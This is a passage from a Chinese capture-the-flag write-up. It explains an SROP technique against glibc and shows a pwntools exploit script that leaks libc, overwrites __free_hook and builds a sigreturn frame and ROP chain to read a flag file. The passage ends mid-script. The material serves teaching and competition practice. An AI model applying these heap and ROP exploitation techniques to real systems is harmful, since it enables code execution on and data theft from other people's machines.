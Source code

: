 ```
.text:0000000000055E63                 mov     rdi, [rdx+68h]
.text:0000000000055E67                 mov     rcx, [rdx+98h]
.text:0000000000055E6E                 mov     r8, [rdx+28h]
.text:0000000000055E72                 mov     r9, [rdx+30h]
.text:0000000000055E76                 mov     rdx, [rdx+88h]
.text:0000000000055E7D                 xor     eax, eax
.text:0000000000055E7F                 retn
```

我们发现SROP中的frame信息，前0x28字节的信息基本上是没有用的，所以我们可以直接把前0x28字节的数据丢掉，并且补上一些配合gadget的数据。<br>
顺便一提，在执行orw的时候，我们其实可以直接利用libc中的函数来调用syscall，可以少找一条**syscall gadget**，说不定就差找这一条gadget的时间就拿到一血了呢？

### <a class="reference-link" name="EXP"></a>EXP

```
from pwn import *

r = process('./pwn')
#r = remote('node3.buuoj.cn', 28140)
context.log_level = "debug"
context.arch = "amd64"
# libc = ELF('/glibc/x64/2.29/lib/libc.so.6')
libc = ELF('./libc.so.6')
r.recvuntil('GIFT: ')
stdout_addr = int(r.recvuntil('\n')[:-1], 16)
print "stdout_addr: " + hex(stdout_addr)
libc.address = stdout_addr - libc.sym['_IO_2_1_stdout_']
print "libc_base: " + hex(libc.address)

r.sendafter('You can write a byte anywhere', p64(libc.address +   0x1ea2d0 + 0x7))
r.sendafter('And what?', '\xFF')
r.sendlineafter('Offset:', str(0x880))
r.sendafter('Content:', p64(libc.sym['__free_hook']))
#gdb.attach(r, 'b free')
r.sendafter('size:', str(0x1530))

pop_rdi_addr = libc.address + 0x0000000000026bb2
pop_rsi_addr = libc.address + 0x000000000002709c
pop_rdx_r12_addr = libc.address + 0x000000000011c3b1
fake_frame_addr = libc.sym['__free_hook'] + 0x10
frame = SigreturnFrame()

frame.rax = 0
frame.rdi = fake_frame_addr + 0xF8
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = libc.address + 0x00000000000256b9  # : ret
rop_data = [
    libc.sym['open'],
    pop_rdx_r12_addr,
    0x100,
    0x0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    libc.sym['read'],
    pop_rdi_addr,
    fake_frame_addr + 0x200,
    libc.sym['puts']
]

gadget = libc.address + 0x0000000000154b20 #0x0000000000154b20: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
frame = str(frame).ljust(0xF8, '\x00')
```